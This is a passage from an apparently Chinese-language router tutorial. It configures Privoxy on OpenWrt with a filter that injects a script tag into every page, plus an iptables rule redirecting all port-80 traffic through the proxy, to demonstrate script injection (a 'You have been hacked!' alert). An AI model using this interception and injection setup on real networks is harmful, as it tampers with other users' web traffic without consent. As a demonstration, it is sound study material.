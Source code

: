 ```bash
opkg update && opkg install privoxy
```

**b.编辑文件**

* 编辑`/etc/config/privoxy`文件,下面是改动的地方:
![./img/PrivoxyConfig.png](./img/PrivoxyConfig.png)
左边是改之后的文件，右边是原始文件。差不多就是把地址改成自己的地址。

* 在文件`/etc/privoxy/user.action`中加入：
```
{+filter{block-weeds}}                                             
.*
```

* 在文件`user.filter`中加入:
```
FILTER: block-weeds                      
s|</head>|<script> window.alert("You have been hacked!");</script>$0|
```

然后添加iptables规则：

当数据包目的端口为80端口时，重定向到8118端口，也就是privoxy程序所监听的端口。

```
iptables -t nat -A PREROUTING -s 0.0.0.0/0.0.0.0 -p tcp --dport 80 -j REDIRECT --to-ports 8118
```

**c.测试结果**

访问http://www.265.com/ :
